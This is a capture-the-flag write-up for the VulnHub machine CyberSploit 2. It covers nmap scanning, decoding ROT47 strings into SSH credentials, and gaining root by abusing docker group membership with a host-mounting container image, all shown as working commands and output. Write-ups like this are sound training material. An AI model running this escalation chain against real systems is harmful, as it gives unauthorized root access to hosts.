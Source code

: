 ```yaml
---
title: Vulnhub - CyberSploit 2
description: My writeup on CyberSploit 2 box.
categories:
 - vulnhub
tags: vulnhub rot47 docker
---
```


![](https://www.ubackground.com/_ph/11/175205427.jpg)

Hi all, let's pwn it!

You can find the machine there > [CyberSploit 2](https://www.vulnhub.com/entry/cybersploit-2,511/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.19
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 00:04 EEST
Nmap scan report for 192.168.1.19 (192.168.1.19)
Host is up (0.00029s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:56:84:35 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.01 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 00:09 EEST
Nmap scan report for 192.168.1.19 (192.168.1.19)
Host is up (0.00043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 00:0C:29:56:84:35 (VMware)
```

## Decoding ROT47 - shell as shailendra

Website has some usernames/passwords:

![](https://i.imgur.com/W7rQkbp.png)

We can see 2 weird strings -> D92:=6?5C2 - 4J36CDA=@:E` that's ROT47 let's decode them using [cyberchef](https://gchq.github.io/CyberChef/)

D92:=6?5C2 -> shailendra

4J36CDA=@:E` -> cybersploit1

Tried them with SSH & i got in! `shailendra:cybersploit1`:

```
$ ssh shailendra@$ip
[shailendra@192 ~]$ whoami
shailendra
```

## shailendra -> root

Now privesc is simple user is member of docker group:

```
[shailendra@192 ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker)
```

Let's get root shell:

```
shailendra@192 ~]$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
a4a2a29f9ba4: Downloading [===================>                               ]  10.86MB/28.56MB
127c9761dcba: Download complete 
d13bf203e905: Download complete                                                                                                                                                         a4a2a29f9ba4: Pull complete 
127c9761dcba: Pull complete 
d13bf203e905: Pull complete 
4039240d2e0b: Pull complete 
16a91ffa6f29: Pull complete 
Digest: sha256:eb6be3ee1f9b2fd6e3ae6d4fda81a80bfdf21aad9bde6f1a5234f1baa58d4bb3
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
sh-4.4# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Now let's read the flag:

```
sh-4.4# cat flag.txt 
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
```

Meme :P
